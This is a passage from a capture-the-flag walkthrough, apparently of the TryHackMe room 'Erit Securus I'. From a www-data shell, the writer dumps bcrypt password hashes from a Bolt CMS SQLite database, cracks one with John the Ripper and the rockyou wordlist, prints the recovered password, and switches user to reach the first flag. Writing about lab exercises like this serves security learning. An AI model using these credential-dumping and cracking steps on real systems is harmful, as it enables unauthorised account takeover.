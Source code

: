 ![](https://i.imgur.com/WV9wdwV.png)

We see two users, the admin we already own, the other one is a wild one. We also see another IP address, 192.168.100.1 (note to self)

We copy the hash and save it to a file. Then run it through john the ripper, using the infamous "[rockyou](https://en.wikipedia.org/wiki/RockYou) wordlist

`john hash -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt`

Using this password, we try to su as the user wileec. This works, and we should find our first flag.

```
www-data@Erit:/var/www/html/public/files$ cd /var/www/html/app/database
www-data@Erit:/var/www/html/app/database$ ls -la
total 328
drwxrwxrwx  2 root root   4096 Nov 15 23:33 .
drwxrwxrwx 16 root root   4096 Apr 25  2020 ..
-rwxrwxrwx  1 root root 327680 Nov 15 23:33 bolt.db
www-data@Erit:/var/www/html/app/database$ sqlite3 bolt.db
SQLite version 3.16.2 2017-01-06 16:32:41
Enter ".help" for usage hints.
sqlite> .tables
bolt_authtoken          bolt_field_value        bolt_pages
bolt_blocks             bolt_homepage           bolt_relations
bolt_content_changelog  bolt_log                bolt_showcases
bolt_cron               bolt_log_change         bolt_taxonomy
bolt_entries            bolt_log_system         bolt_users
sqlite> select * from bolt_users;
1|admin|$2y$10$C4b.yin4B2/2Q2uNT/Ns4.65A6LK6iUR/un3cViBvFWZs0mYtXXLK||0|a@a.com|2020-11-15 23:33:29|192.168.100.1|[]|1|||||["root","everyone"]
2|wildone|$2y$10$ZZqbTKKlgDnCMvGD2M0SxeTS3GPSCljXWtd172lI2zj3p6bjOCGq.|Wile E Coyote|0|wild@one.com|2020-04-25 16:03:44|192.168.100.1|[]|1|||||["editor"]
sqlite>
```

```
bibo318@parrot:~/CTFs/tryhackme/Erit Securus I$ john wildone.hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snickers         (?)
1g 0:00:00:03 DONE (2020-11-16 00:40) 0.2747g/s 138.4p/s 138.4c/s 138.4C/s pasaway..claire
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`wildone:snickers`

```
www-data@Erit:/var/www/html/app/database$ su wileec
Password:
$ bash
wileec@Erit:/var/www/html/app/database$ cd ~
wileec@Erit:~$ ls -la
total 28
drwxr-xr-x 4 wileec wileec 4096 Apr 25  2020 .
drwxr-xr-x 4 root   root   4096 Apr 25  2020 ..
-rw-r--r-- 1 wileec wileec  220 May 15  2017 .bash_logout
-rw-r--r-- 1 wileec wileec 3526 May 15  2017 .bashrc
-rw-r--r-- 1 wileec wileec  675 May 15  2017 .profile
drwxr-xr-x 2 wileec wileec 4096 Apr 25  2020 .ssh
-rw-r--r-- 1 root   root     21 Apr 25  2020 flag1.txt
wileec@Erit:~$ cat flag1.txt
```